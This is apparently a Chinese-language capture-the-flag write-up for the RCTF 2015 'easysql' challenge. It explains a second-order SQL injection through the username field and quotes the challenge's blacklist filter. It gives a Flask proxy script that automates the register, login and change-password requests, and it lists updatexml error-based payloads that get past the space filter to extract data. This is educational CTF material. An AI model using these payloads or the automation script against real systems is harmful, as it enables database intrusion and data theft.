


# Rctf2015 eaysql

注册一个aaa\然后在修改密码的页面可以发现报错



可以看到是双引号，这明显是一个二次注入，然后重新构造语句发现不能含有空格。但是这并不影响，直接用括号代替就行了。

对username进行fuzz，可以得到哪些字符串被过滤了。可以发现，它过滤了rand @ ` 空格 order /**/ /*! */ %20 %09 %0a %0b %0c %0d、limit等等。

```php

function check($string)
{
	//$string = preg_replace("#(\s)|(/\*.*\*/)#i", "", $string);
	$postfilter = "#(\s)|(/\*.*\*/)|file|insert|<|and|floor|ord|char|ascii|mid|left|right|hex|sleep|benchmark|substr|@|`|delete|like#i";
	if(preg_match($postfilter, $string,$matches))
	{
		echo "<script>alert('invalid string!')</script>";
		die();
	}
	else
		return $string;
}
```

注册的时候的用户名和密码，最后会反馈在修改密码处。此时，我们可以引入一个代理中转的方式。将多个行为转为一个行为。

整个攻击逻辑流：

1. 注册一个用户，注入点在username。
2. 登陆用户
3. 修改密码，触发漏洞

代理代码如下：

```python
# -*- coding: utf-8 -*-
from contextlib import closing
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = '166.111.227.240:21679'
session = requests.Session()


@app.before_request
def before_request():
    """
    请求前处理
    :return:
    """
    url = request.url.replace(request.host, end_host)
    method = request.method
    data = request.data or request.form or None
    headers = dict()
    for name, value in request.headers:
        if not value or name == 'Cache-Control':
            continue
        headers[name] = value

    r = hack(method, url, headers, data)
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection',
                            'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)


def hack(method, url, headers, data):
    username = data['username']
    register(username)
    login(username)
    return changepwd()


def register(username):
    paramsPost = {"password": "123", "email": "11", "username": username}
    headers = {"Origin": "http://166.111.227.240:21679",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "http://166.111.227.240:21679/register.php", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("http://{}/register.php".format(end_host), data=paramsPost, headers=headers)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

def login(username):
    paramsPost = {"password": "123", "username": username}
    headers = {"Origin": "http://166.111.227.240:21679",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "http://166.111.227.240:21679/login.php", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("http://{}/login.php".format(end_host), data=paramsPost, headers=headers)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)


def changepwd():
    paramsPost = {"oldpass": "", "newpass": ""}
    headers = {"Origin": "http://166.111.227.240:21679",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "http://166.111.227.240:21679/changepwd.php", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("http://{}/changepwd.php".format(end_host), data=paramsPost, headers=headers)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)
    return response


app.run(port=8007, debug=True)


```


payload构造如下：

```bash
1. username=moxiaoxi"&password=moxiaoxi&email=moxiaoxi
2. username=moxiaoxi"|| (updatexml(1,concat(0x3a,(select(user()))),1))%23&password=moxiaoxi&email=moxiaoxi
3. username=moxiaoxi"|| (updatexml(1,concat(0x3a,(select(flag)from(flag))),1))%23
4. username=moxiaoxi"+updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^R'))),1)%23
```



